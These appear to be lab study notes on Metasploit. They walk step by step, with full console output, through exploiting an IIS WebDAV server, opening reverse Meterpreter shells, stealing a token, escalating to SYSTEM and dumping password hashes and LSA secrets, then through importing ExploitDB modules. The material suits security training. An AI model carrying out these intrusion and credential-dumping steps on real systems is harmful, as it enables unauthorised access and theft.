multi_meter_cmd Run a Meterpreter Console Command against specified sessions.
multi_meter_cmd_rc Run resource file with Meterpreter Console Commands against specified sessions.
multi_post Run a post module against specified sessions.
multi_post_rc Run resource file with post modules and options against specified sessions.
sys_creds Run system password collection modules against specified sessions.
<SNIP>
Mixins
... are classes that act as methods for use by other classes without having to be the parent class of those other classes. Thus, it would be deemed inappropriate to call it inheritance but rather inclusion. They are mainly used when you:
- want to provide a lot of optional features for a class
- want to use one particular feature for a multitude of classes
Most of Ruby programming language resolves around Mixins as Modules.
Sessions
MSFconsole can manage multiplte sessions at the same time. Once several sessions are created, you can switch between them and link a different module to one of the backgrounded sessions to run on it or turn them into jobs.
Using Sessions
Backgrounding can be accomplished by pressing [CTRL] + [Z] or by typing background.
Listing Active Sessions
msf6 exploit(windows/smb/psexec_psh) > sessions
Active sessions
===============
Id Name Type Information Connection
-- ---- ---- ----------- ----------
1 meterpreter x86/windows NT AUTHORITY\SYSTEM @ MS01 10.10.10.129:443 -> 10.10.10.205:50501 (10.10.10.205)
Interacting with a Session
# sessions -i [no.] to open up a specific session.
msf6 exploit(windows/smb/psexec_psh) > sessions -i 1
[*] Starting interaction with 1...
meterpreter >
This is specifically useful when you want to run an additional module on an already exploited system with a formed, stable communication channel.
This can be done by backgrounding your current session, which is formed due to the success of the first exploit, searching for the second module you wish to run, if made possible by the type of module selected, selecting the session number on which the module should be run. This can be done from the second module's show option menu.
Usually, these modules can be found in the post category, referring to Post-Exploitation modules. The main archetypes of modules in this category consist of credential gatherers, local exploit suggesters, and internal scanners.
Jobs
If, for example, you are running an active exploit under a specific port and need this port for a different moduel, you cannot simply terminate the session. If you did that, you would see that the port would still be in use, affecting your use of the new module. So instead, you would need to use the jobs command to look at the currently active tasks running in the background and terminate the old ones to free up the port.
Other types of tasks inside sessions can also be converted into jobs to run in the background seamlessly, even if the session dies or disappears.
Viewing the Jobcs Command Help Menu
msf6 exploit(multi/handler) > jobs -h
Usage: jobs [options]
Active job manipulation and interaction.
OPTIONS:
-K Terminate all running jobs.
-P Persist all running jobs on restart.
-S <opt> Row search filter.
-h Help banner.
-i <opt> Lists detailed information about a running job.
-k <opt> Terminate jobs by job ID and/or range.
-l List all running jobs.
-p <opt> Add persistence to job by job ID
-v Print more detailed info. Use with -i and -l
Viewing the Exploit Command Help Menu
msf6 exploit(multi/handler) > exploit -h
Usage: exploit [options]
Launches an exploitation attempt.
OPTIONS:
-J Force running in the foreground, even if passive.
-e <opt> The payload encoder to use. If none is specified, ENCODER is used.
-f Force the exploit to run regardless of the value of MinimumRank.
-h Help banner.
-j Run in the context of a job.
<SNIP
Running an Exploit as a Background Job
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 10.10.14.34:4444
Listing Running Jobs
msf6 exploit(multi/handler) > jobs -l
Jobs
====
Id Name Payload Payload opts
-- ---- ------- ------------
0 Exploit: multi/handler generic/shell_reverse_tcp tcp://10.10.14.34:4444
# kill [index no.] to kill a specific job
# jobs -K to kill all running jobs
Meterpreter
The meterpreter payload is a specific type of multi-faceted, extensible payload that uses DLL injection to ensure the connection to the victim host is stable and difficult to detect using simple checks and be configured to be persistent across reboots or system changes. Furthermore, meterpreter resides entirely in the memory of the remote host and leaves no traces on the hard drive, making it difficult to detect with conventional forensic techniques.
Running Meterpreter
To run meterpreter, you only need to select any version of it from the show payloads output, taking into consideration the type of connection and OS you are attacking.
When the exploit is completed, the following events occur:
- the target executes the initial stager; this is usually a bind, reverse, findtag, passivex, etc.
- the stager loads the DLL prefixed with Reflective; the Reflective stub handles the loading/injection of the DLL
- the meterpreter core initializes, establishes an AES-encrypted link over the socket, and sends a GET; metasploit receives this GET and configures the client
- lastly, meterpreter loads extensions; it will always load stdapi and load priv if the module gives administrative rights; all of these extensions are loaded over AES encryption
MSF - Meterpreter Commands
meterpreter > help
Core Commands
=============
Command Description
------- -----------
? Help menu
background Backgrounds the current session
bg Alias for background
bgkill Kills a background meterpreter script
bglist Lists running background scripts
bgrun Executes a meterpreter script as a background thread
channel Displays information or control active channels
close Closes a channel
disable_unicode_encoding Disables encoding of unicode strings
enable_unicode_encoding Enables encoding of unicode strings
exit Terminate the meterpreter session
get_timeouts Get the current session timeout values
guid Get the session GUID
help Help menu
info Displays information about a Post module
irb Open an interactive Ruby shell on the current session
load Load one or more meterpreter extensions
machine_id Get the MSF ID of the machine attached to the session
migrate Migrate the server to another process
pivot Manage pivot listeners
pry Open the Pry debugger on the current session
quit Terminate the meterpreter session
read Reads data from a channel
resource Run the commands stored in a file
run Executes a meterpreter script or Post module
secure (Re)Negotiate TLV packet encryption on the session
sessions Quickly switch to another session
set_timeouts Set the current session timeout values
sleep Force Meterpreter to go quiet, then re-establish session.
transport Change the current transport mechanism
use Deprecated alias for "load"
uuid Get the UUID for the current session
write Writes data to a channel
The main idea you need to get about meterpreter is that it is just as good as getting a direct shell on the target OS but with more functionality. The developers of meterpreter set clear design goals for the project to skyrocket in usability in the future. Meterpreter needs to be:
- stealthy
- powerful
- extensible
Using Meterpreter
MSF - Scanning Target
msf6 > db_nmap -sV -p- -T5 -A 10.10.10.15
[*] Nmap: Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-03 09:55 UTC
[*] Nmap: Nmap scan report for 10.10.10.15
[*] Nmap: Host is up (0.021s latency).
[*] Nmap: Not shown: 65534 filtered ports
[*] Nmap: PORT STATE SERVICE VERSION
[*] Nmap: 80/tcp open http Microsoft IIS httpd 6.0
[*] Nmap: | http-methods:
[*] Nmap: |_ Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
[*] Nmap: |_http-server-header: Microsoft-IIS/6.0
[*] Nmap: |_http-title: Under Construction
[*] Nmap: | http-webdav-scan:
[*] Nmap: | Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
[*] Nmap: | WebDAV type: Unknown
[*] Nmap: | Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
[*] Nmap: | Server Date: Thu, 03 Sep 2020 09:56:46 GMT
[*] Nmap: |_ Server Type: Microsoft-IIS/6.0
[*] Nmap: Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 59.74 seconds
msf6 > hosts
Hosts
=====
address mac name os_name os_flavor os_sp purpose info comments
------- --- ---- ------- --------- ----- ------- ---- --------
10.10.10.15 Unknown device
msf6 > services
Services
========
host port proto name state info
---- ---- ----- ---- ----- ----
10.10.10.15 80 tcp http open Microsoft IIS httpd 6.0
Next, you look up some information about the services running on this box. Specifically, you want to explore port 80 and what kind of web service is hosted there.
When visiting the website, you notice it is an under-construction website. However, looking at both the end of the webpage and the result of the nmap scan more closely, you notice that the server is running Microsoft IIS httpd 6.0. So you further your research in that direction, searching for common vulns for this version of IIS. After some searching, you find the following marker for a widespread vuln: CVE-2017-7269. It also has a metasploit module developed for it.
MSF - Searching for Exploit
msf6 > search iis_webdav_upload_asp
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 exploit/windows/iis/iis_webdav_upload_asp 2004-12-31 excellent No Microsoft IIS WebDAV Write Access Code Execution
msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/iis/iis_webdav_upload_asp) > show options
Module options (exploit/windows/iis/iis_webdav_upload_asp):
Name Current Setting Required Description
---- --------------- -------- -----------
HttpPassword no The HTTP password to specify for authentication
HttpUsername no The HTTP username to specify for authentication
METHOD move yes Move or copy the file on the remote system from .txt -> .asp (Accepted: move, copy)
PATH /metasploit%RAND%.asp yes The path to attempt to upload
Proxies no A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT 80 yes The target port (TCP)
SSL false no Negotiate SSL/TLS for outgoing connections
VHOST no HTTP server virtual host
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST 10.10.239.181 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic
MSF - Configure Exploit & Payload
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set RHOST 10.10.10.15
RHOST => 10.10.10.15
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set LHOST tun0
LHOST => tun0
msf6 exploit(windows/iis/iis_webdav_upload_asp) > run
[*] Started reverse TCP handler on 10.10.14.26:4444
[*] Checking /metasploit28857905.asp
[*] Uploading 612435 bytes to /metasploit28857905.txt...
[*] Moving /metasploit28857905.txt to /metasploit28857905.asp...
[*] Executing /metasploit28857905.asp...
[*] Sending stage (175174 bytes) to 10.10.10.15
[*] Deleting /metasploit28857905.asp (this doesn't always work)...
[!] Deletion failed on /metasploit28857905.asp [403 Forbidden]
[*] Meterpreter session 1 opened (10.10.14.26:4444 -> 10.10.10.15:1030) at 2020-09-03 10:10:21 +0000
meterpreter >
You have your meterpreter shell. However, you can see a .asp file named "metasploit28857905" on the target at this very moment. Once the meterpreter shell is obtained, it will reside within the memory. Therefore, the file is not needed, and removal was attempted by msfconsole, which failed due to access permissions. Leaving traces like these is not beneficial to the attacker and creates a huge liability.
MSF - Meterpreter Migration
meterpreter > getuid
[-] 1055: Operation failed: Access is denied.
meterpreter > ps
Process List
============
PID PPID Name Arch Session User Path
--- ---- ---- ---- ------- ---- ----
0 0 [System Process]
4 0 System
216 1080 cidaemon.exe
272 4 smss.exe
292 1080 cidaemon.exe
<...SNIP...>
1712 396 alg.exe
1836 592 wmiprvse.exe x86 0 NT AUTHORITY\NETWORK SERVICE C:\WINDOWS\system32\wbem\wmiprvse.exe
1920 396 dllhost.exe
2232 3552 svchost.exe x86 0 C:\WINDOWS\Temp\rad9E519.tmp\svchost.exe
2312 592 wmiprvse.exe
3552 1460 w3wp.exe x86 0 NT AUTHORITY\NETWORK SERVICE c:\windows\system32\inetsrv\w3wp.exe
3624 592 davcdata.exe x86 0 NT AUTHORITY\NETWORK SERVICE C:\WINDOWS\system32\inetsrv\davcdata.exe
4076 1080 cidaemon.exe
meterpreter > steal_token 1836
Stolen token with username: NT AUTHORITY\NETWORK SERVICE
meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
Now that you have established at least some privilege level in the system, it is time to escalate that privilege. So, you look around for anything interesting, and in the C:\inetpub\ location, you find an interesting folder named "AdminScripts". However, unfortunately, you do not have permission to read what is inside it.
MSF - Interacting with the Target
c:\Inetpub>dir
dir
Volume in drive C has no label.
Volume Serial Number is 246C-D7FE
Directory of c:\Inetpub
04/12/2017 05:17 PM <DIR> .
04/12/2017 05:17 PM <DIR> ..
04/12/2017 05:16 PM <DIR> AdminScripts
09/03/2020 01:10 PM <DIR> wwwroot
0 File(s) 0 bytes
4 Dir(s) 18,125,160,448 bytes free
c:\Inetpub>cd AdminScripts
cd AdminScripts
Access is denied.
You can easily decide to run the local exploit suggester module, attaching it to the currently active meterpreter session. To do so, you background the current session, search for the module you need, and set the SESSION option to the index number for the meterpreter session, binding the module to it.
MSF - Session Handling
meterpreter > bg
Background session 1? [y/N] y
msf6 exploit(windows/iis/iis_webdav_upload_asp) > search local_exploit_suggester
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 post/multi/recon/local_exploit_suggester normal No Multi Recon Local Exploit Suggester
msf6 exploit(windows/iis/iis_webdav_upload_asp) > use 0
msf6 post(multi/recon/local_exploit_suggester) > show options
Module options (post/multi/recon/local_exploit_suggester):
Name Current Setting Required Description
---- --------------- -------- -----------
SESSION yes The session to run this module on
SHOWDESCRIPTION false yes Displays a detailed description for the available exploits
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf6 post(multi/recon/local_exploit_suggester) > run
[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 34 exploit checks are being tried...
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf6 post(multi/recon/local_exploit_suggester) >
Running the recon module presents you with a multitude of options. Going through each separate one, you land on the "ms15_051_client_copy_image" entry, which proves to be successful. This exploit lands you directly within a root shell, giving you total control over the target system.
MSF - PrivEsc
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms15_051_client_copy_images
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms15_051_client_copy_image) > show options
Module options (exploit/windows/local/ms15_051_client_copy_image):
Name Current Setting Required Description
---- --------------- -------- -----------
SESSION yes The session to run this module on.
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC thread yes Exit technique (Accepted: '', seh, thread, process, none)
LHOST 46.101.239.181 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Windows x86
msf6 exploit(windows/local/ms15_051_client_copy_image) > set session 1
session => 1
msf6 exploit(windows/local/ms15_051_client_copy_image) > set LHOST tun0
LHOST => tun0
msf6 exploit(windows/local/ms15_051_client_copy_image) > run
[*] Started reverse TCP handler on 10.10.14.26:4444
[*] Launching notepad to host the exploit...
[+] Process 844 launched.
[*] Reflectively injecting the exploit DLL into 844...
[*] Injecting exploit into 844...
[*] Exploit injected. Injecting payload into 844...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175174 bytes) to 10.10.10.15
[*] Meterpreter session 2 opened (10.10.14.26:4444 -> 10.10.10.15:1031) at 2020-09-03 10:35:01 +0000
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
From here, you can proceed to use the plethora of meterpreter functionalities.
MSF - Dumping Hashes
meterpreter > hashdump
Administrator:500:c74761604a24f0dfd0a9ba2c30e462cf:d6908f022af0373e9e21b8a241c86dca:::
ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f58964a2376bbd769:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
IUSR_GRANPA:1003:a274b4532c9ca5cdf684351fab962e86:6a981cb5e038b2d8b713743a50d89c88:::
IWAM_GRANPA:1004:95d112c4da2348b599183ac6b1d67840:a97f39734c21b3f6155ded7821d04d16:::
Lakis:1009:f927b0679b3cc0e192410d9b0b40873c:3064b6fc432033870c6730228af7867c:::
SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:8ed3993efb4e6476e4f75caebeca93e6:::
meterpreter > lsa_dump_sam
[+] Running as SYSTEM
[*] Dumping SAM
Domain : GRANNY
SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb
Local SID : S-1-5-21-1709780765-3897210020-3926566182
SAMKey : 37ceb48682ea1b0197c7ab294ec405fe
RID : 000001f4 (500)
User : Administrator
Hash LM : c74761604a24f0dfd0a9ba2c30e462cf
Hash NTLM: d6908f022af0373e9e21b8a241c86dca
RID : 000001f5 (501)
User : Guest
RID : 000003e9 (1001)
User : SUPPORT_388945a0
Hash NTLM: 8ed3993efb4e6476e4f75caebeca93e6
RID : 000003eb (1003)
User : IUSR_GRANPA
Hash LM : a274b4532c9ca5cdf684351fab962e86
Hash NTLM: 6a981cb5e038b2d8b713743a50d89c88
RID : 000003ec (1004)
User : IWAM_GRANPA
Hash LM : 95d112c4da2348b599183ac6b1d67840
Hash NTLM: a97f39734c21b3f6155ded7821d04d16
RID : 000003ef (1007)
User : ASPNET
Hash LM : 3f71d62ec68a06a39721cb3f54f04a3b
Hash NTLM: edc0d5506804653f58964a2376bbd769
RID : 000003f1 (1009)
User : Lakis
Hash LM : f927b0679b3cc0e192410d9b0b40873c
Hash NTLM: 3064b6fc432033870c6730228af7867c
MSF - Meterpreter LSA Secrets Dump
meterpreter > lsa_dump_secrets
[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : GRANNY
SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb
Local name : GRANNY ( S-1-5-21-1709780765-3897210020-3926566182 )
Domain name : HTB
Policy subsystem is : 1.7
LSA Key : ada60ee248094ce782807afae1711b2c
Secret : aspnet_WP_PASSWORD
cur/text: Q5C'181g16D'=F
Secret : D6318AF1-462A-48C7-B6D9-ABB7CCD7975E-SRV
cur/hex : e9 1c c7 89 aa 02 92 49 84 58 a4 26 8c 7b 1e c2
Secret : DPAPI_SYSTEM
cur/hex : 01 00 00 00 7a 3b 72 f3 cd ed 29 ce b8 09 5b b0 e2 63 73 8a ab c6 ca 49 2b 31 e7 9a 48 4f 9c b3 10 fc fd 35 bd d7 d5 90 16 5f fc 63
full: 7a3b72f3cded29ceb8095bb0e263738aabc6ca492b31e79a484f9cb310fcfd35bdd7d590165ffc63
m/u : 7a3b72f3cded29ceb8095bb0e263738aabc6ca49 / 2b31e79a484f9cb310fcfd35bdd7d590165ffc63
Secret : L$HYDRAENCKEY_28ada6da-d622-11d1-9cb9-00c04fb16e75
cur/hex : 52 53 41 32 48 00 00 00 00 02 00 00 3f 00 00 00 01 00 01 00 b3 ec 6b 48 4c ce e5 48 f1 cf 87 4f e5 21 00 39 0c 35 87 88 f2 51 41 e2 2a e0 01 83 a4 27 92 b5 30 12 aa 70 08 24 7c 0e de f7 b0 22 69 1e 70 97 6e 97 61 d9 9f 8c 13 fd 84 dd 75 37 35 61 89 c8 00 00 00 00 00 00 00 00 97 a5 33 32 1b ca 65 54 8e 68 81 fe 46 d5 74 e8 f0 41 72 bd c6 1e 92 78 79 28 ca 33 10 ff 86 f0 00 00 00 00 45 6d d9 8a 7b 14 2d 53 bf aa f2 07 a1 20 29 b7 0b ac 1c c4 63 a4 41 1c 64 1f 41 57 17 d1 6f d5 00 00 00 00 59 5b 8e 14 87 5f a4 bc 6d 8b d4 a9 44 6f 74 21 c3 bd 8f c5 4b a3 81 30 1a f6 e3 71 10 94 39 52 00 00 00 00 9d 21 af 8c fe 8f 9c 56 89 a6 f4 33 f0 5a 54 e2 21 77 c2 f4 5c 33 42 d8 6a d6 a5 bb 96 ef df 3d 00 00 00 00 8c fa 52 cb da c7 10 71 10 ad 7f b6 7d fb dc 47 40 b2 0b d9 6a ff 25 bc 5f 7f ae 7b 2b b7 4c c4 00 00 00 00 89 ed 35 0b 84 4b 2a 42 70 f6 51 ab ec 76 69 23 57 e3 8f 1b c3 b1 99 9e 31 09 1d 8c 38 0d e7 99 57 36 35 06 bc 95 c9 0a da 16 14 34 08 f0 8e 9a 08 b9 67 8c 09 94 f7 22 2e 29 5a 10 12 8f 35 1c 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Secret : L$RTMTIMEBOMB_1320153D-8DA3-4e8e-B27B-0D888223A588
cur/hex : 00 f2 d1 31 e2 11 d3 01
Secret : L$TermServLiceningSignKey-12d4b7c8-77d5-11d1-8c24-00c04fa3080d
Secret : L$TermServLicensingExchKey-12d4b7c8-77d5-11d1-8c24-00c04fa3080d
Secret : L$TermServLicensingServerId-12d4b7c8-77d5-11d1-8c24-00c04fa3080d
Secret : L$TermServLicensingStatus-12d4b7c8-77d5-11d1-8c24-00c04fa3080d
Secret : L${6B3E6424-AF3E-4bff-ACB6-DA535F0DDC0A}
cur/hex : ca 66 0b f5 42 90 b1 2b 64 a0 c5 87 a7 db 9a 8a 2e ee da a8 bb f6 1a b1 f4 03 cf 7a f1 7f 4c bc fc b4 84 36 40 6a 34 f9 89 56 aa f4 43 ef 85 58 38 3b a8 34 f0 dc c3 7f
old/hex : ca 66 0b f5 42 90 b1 2b 64 a0 c5 87 a7 db 9a 8a 2e c8 e9 13 e6 5f 17 a9 42 93 c2 e3 4c 8c c3 59 b8 c2 dd 12 a9 6a b2 4c 22 61 5f 1f ab ab ff 0c e0 93 e2 e6 bf ea e7 16
Secret : NL$KM
cur/hex : 91 de 7a b2 cb 48 86 4d cf a3 df ae bb 3d 01 40 ba 37 2e d9 56 d1 d7 85 cf 08 82 93 a2 ce 5f 40 66 02 02 e1 1a 9c 7f bf 81 91 f0 0f f2 af da ed ac 0a 1e 45 9e 86 9f e7 bd 36 eb b2 2a 82 83 2f
Secret : SAC
Secret : SAI
Secret : SCM:{148f1a14-53f3-4074-a573-e1ccd344e1d0}
Secret : SCM:{3D14228D-FBE1-11D0-995D-00C04FD919C1}
Secret : _SC_Alerter / service 'Alerter' with username : NT AUTHORITY\LocalService
Secret : _SC_ALG / service 'ALG' with username : NT AUTHORITY\LocalService
Secret : _SC_aspnet_state / service 'aspnet_state' with username : NT AUTHORITY\NetworkService
Secret : _SC_Dhcp / service 'Dhcp' with username : NT AUTHORITY\NetworkService
Secret : _SC_Dnscache / service 'Dnscache' with username : NT AUTHORITY\NetworkService
Secret : _SC_LicenseService / service 'LicenseService' with username : NT AUTHORITY\NetworkService
Secret : _SC_LmHosts / service 'LmHosts' with username : NT AUTHORITY\LocalService
Secret : _SC_MSDTC / service 'MSDTC' with username : NT AUTHORITY\NetworkService
Secret : _SC_RpcLocator / service 'RpcLocator' with username : NT AUTHORITY\NetworkService
Secret : _SC_RpcSs / service 'RpcSs' with username : NT AUTHORITY\NetworkService
Secret : _SC_stisvc / service 'stisvc' with username : NT AUTHORITY\LocalService
Secret : _SC_TlntSvr / service 'TlntSvr' with username : NT AUTHORITY\LocalService
Secret : _SC_WebClient / service 'WebClient' with username : NT AUTHORITY\LocalService
From this point, if the machine was connected to a more extensive network, you could use this loot to pivot through the system, gain access to internal resources and impersonate users with a higher level of access if the overall security posture of the network is weak.
Writing and Importing Modules
To install any new metasploit modules which have already been ported over by other users, one can choose to update their msfconsole from the terminal, which will ensure that all newest exploits, auxiliaries, and features will be installed in the latest version of msfconsole.
However, if you need only a specific module and do not want to perform a full upgrade, you can download that module and install it manually. You will focus on searching ExploitDB for readily available metasploit modules, which you can directly import into your version of msfconsole locally.
Example Nagios3
Let's say you want to use an exploit for Nagios3, which will take advantage of a command injection vuln. The module you are looking for is "Nagios3 - 'statuswml.cgi' Command Injection (Metasploit)". So you fire up msfconsole and try to search for that specific exploit, but you cannot find it. This means that your metasploit framework is not up to date or that the specific Nagios3 exploit module you are looking for is not in the official update release.
MSF - Search for Exploits
msf6 > search nagios
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 exploit/linux/http/nagios_xi_authenticated_rce 2019-07-29 excellent Yes Nagios XI Authenticated Remote Command Execution
1 exploit/linux/http/nagios_xi_chained_rce 2016-03-06 excellent Yes Nagios XI Chained Remote Code Execution
2 exploit/linux/http/nagios_xi_chained_rce_2_electric_boogaloo 2018-04-17 manual Yes Nagios XI Chained Remote Code Execution
3 exploit/linux/http/nagios_xi_magpie_debug 2018-11-14 excellent Yes Nagios XI Magpie_debug.php Root Remote Code Execution
4 exploit/linux/misc/nagios_nrpe_arguments 2013-02-21 excellent Yes Nagios Remote Plugin Executor Arbitrary Command Execution
5 exploit/unix/webapp/nagios3_history_cgi 2012-12-09 great Yes Nagios3 history.cgi Host Command Execution
6 exploit/unix/webapp/nagios_graph_explorer 2012-11-30 excellent Yes Nagios XI Network Monitor Graph Explorer Component Command Injection
7 post/linux/gather/enum_nagios_xi 2018-04-17 normal No Nagios XI Enumeration
You can, however, find the exploit code inside ExploitDB's entries. Alternatively, if you do not want to use your web browser to search for a specific exploit within ExploitDB, you can use the CLI version, searchsploit.
d41y@htb[/htb]$ searchsploit nagios3
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title | Path
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Nagios3 - 'history.cgi' Host Command Execution (Metasploit) | linux/remote/24159.rb
Nagios3 - 'history.cgi' Remote Command Execution | multiple/remote/24084.py
Nagios3 - 'statuswml.cgi' 'Ping' Command Execution (Metasploit) | cgi/webapps/16908.rb
Nagios3 - 'statuswml.cgi' Command Injection (Metasploit) | unix/webapps/9861.rb
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Note that the hosted file terminations that end in .rb are Ruby scripts that most likely have been crafted specifically for use within msfconsole. You can also filter only by .rb file terminations to avoid output from scripts that cannot run within msfconsole. Note that not all .rb files are automatically converted to msfconsole modules. Some exploits are written in Ruby without having any metasploit module-compatible code in them.
d41y@htb[/htb]$ searchsploit -t Nagios3 --exclude=".py"
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title | Path
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Nagios3 - 'history.cgi' Host Command Execution (Metasploit) | linux/remote/24159.rb
Nagios3 - 'statuswml.cgi' 'Ping' Command Execution (Metasploit) | cgi/webapps/16908.rb
Nagios3 - 'statuswml.cgi' Command Injection (Metasploit) | unix/webapps/9861.rb
--------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
You have to download the .rb file and place it in the correct directory. The default directory where all the modules, scripts, plugins, and msfconsole proprietary files are stored is /usr/share/metasploit-framework. The critical folders are also symlinked in your home and root folders in the hidden ~/.msf4/ location.
MSF - Directory Structure
d41y@htb[/htb]$ ls /usr/share/metasploit-framework/
app db Gemfile.lock modules msfdb msfrpcd msf-ws.ru ruby script-recon vendor
config documentation lib msfconsole msf-json-rpc.ru msfupdate plugins script-exploit scripts
data Gemfile metasploit-framework.gemspec msfd msfrpc msfvenom Rakefile script-password tools
...
d41y@htb[/htb]$ ls .msf4/
history local logos logs loot modules plugins store
You copy it into the appropriate directory after downloading the exploit. Note that your home folder .msf4 location might not have all the folder structure that the /usr/share/metasploit-framework/ one might have. So, you will just need to mkdir the appropriate folders so that the structure is the same as the original folder so that msfconsole can find the new modules. After that, you will be proceeding with copying the .rb script directly into the primary location.
Please note that there are certain naming conventions that, if not adequately respected, will generate errors when trying to get msfconsole to recognize the new module you installed. Always use snake-case, alphanumeric chars, and underscores instead of dashes.
For example:
- nagios3_command_injection.rb
- our_module_here.rb
MSF - Loading Additional Modules at Runtime
d41y@htb[/htb]$ cp ~/Downloads/9861.rb /usr/share/metasploit-framework/modules/exploits/unix/webapp/nagios3_command_injection.rb
d41y@htb[/htb]$ msfconsole -m /usr/share/metasploit-framework/modules/
MSF - Loading Additional Modules
msf6> loadpath /usr/share/metasploit-framework/modules/
Alternatively, you can also launch msfconsole and run the reload_all command for the newly installed module to appear in the list. After the command is run an no errors are reported, try either the search [name] function inside msfconsole or directly with the use [module-path] to jump into the newly installed module.
msf6 > reload_all
msf6 > use exploit/unix/webapp/nagios3_command_injection
msf6 exploit(unix/webapp/nagios3_command_injection) > show options
Module options (exploit/unix/webapp/nagios3_command_injection):
Name Current Setting Required Description
---- --------------- -------- -----------
PASS guest yes The password to authenticate with
Proxies no A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT 80 yes The target port (TCP)
SSL false no Negotiate SSL/TLS for outgoing connections
URI /nagios3/cgi-bin/statuswml.cgi yes The full URI path to statuswml.cgi
USER guest yes The username to authenticate with
VHOST no HTTP server virtual host
Exploit target:
Id Name
-- ----
0 Automatic Target
Porting Over Scripts into Metasploit Modules
To adapt a custom Python, PHP, or any type of exploit script to a Ruby module for metasploit, you will need to learn the Ruby programming language. Note that Ruby modules for metasploit are always written using hard tabs.
You start by picking some exploit code to port over to metasploit. In this example, you will go for "Bludit 3.9.2 - Authentication Bruteforce Mitigation Bypass". You will need to download the script, 48746.rb and proceed to copy it into the /usr/share/metasploit-framework/modules/exploits/linux/http/ folder. If you boot into msfconsole right now, you will only be able to find a single Bludit CMS exploit in the same folder as above, confirming that your exploit has not been ported over yet. It is good news that there is already a Bludit exploit in that folder because you will use it as boilerplate code for your new exploit.
Porting MSF Modules
d41y@htb[/htb]$ ls /usr/share/metasploit-framework/modules/exploits/linux/http/ | grep bludit
bludit_upload_images_exec.rb
...
d41y@htb[/htb]$ cp ~/Downloads/48746.rb /usr/share/metasploit-framework/modules/exploits/linux/http/bludit_auth_bruteforce_mitigation_bypass.rb
At the beginning of the file you copied, which is where you will be filling in your information, you can notice the include statements at the beginning of the boilerplate module. These are the mixins, and you will need to change these to the appropriate ones for your module.
If you want to find the appropriate mixins, classes, and methods required for your module to work, you will need to look up the different entries on the rubydoc rapid7 documentation.
Writing your Module
You will often face a custom-built network running proprietary code to serve its clients during specific assessments. Most of the modules you have at hand do not even make a dent in their perimeter, and you cannot seem to scan and document the target with anything you have correctly. This is where you might find it helpful to dust off your Ruby skills and start coding your modules.
All necessary information about metasploit Ruby coding can be found here. From scanners to other axuiliary tools, from custom-made exploits to ported ones, coding in Ruby for the framework is an amazingly applicable skill.
